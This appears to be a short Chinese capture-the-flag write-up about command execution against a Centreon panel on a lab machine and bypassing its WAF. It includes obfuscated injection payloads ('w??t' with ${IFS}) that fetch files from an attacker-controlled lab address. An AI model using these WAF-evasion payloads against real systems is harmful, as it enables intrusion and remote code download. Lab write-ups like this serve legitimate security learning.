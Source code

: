 ```yaml
---
title: Wall-rce与绕过waf(下)
categories:
- training
tags:
- training
---
```

参考资料：[绕过waf之命令执行](https://whale3070.github.io/waf/2019/11/11/12-x/)

```
题外话：恐惧和自满是练习的天敌。
							——————《刻意练习》
```
访问`http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1`

手动测试命令执行

## (失败的）测试绕过waf
`/bin/w??t${IFS}http://10.10.14.18/index.html`

![18](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/18.PNG)
失败

---

`/usr/bin/w??t${IFS}http://10.10.14.18:800/index.html%20%23`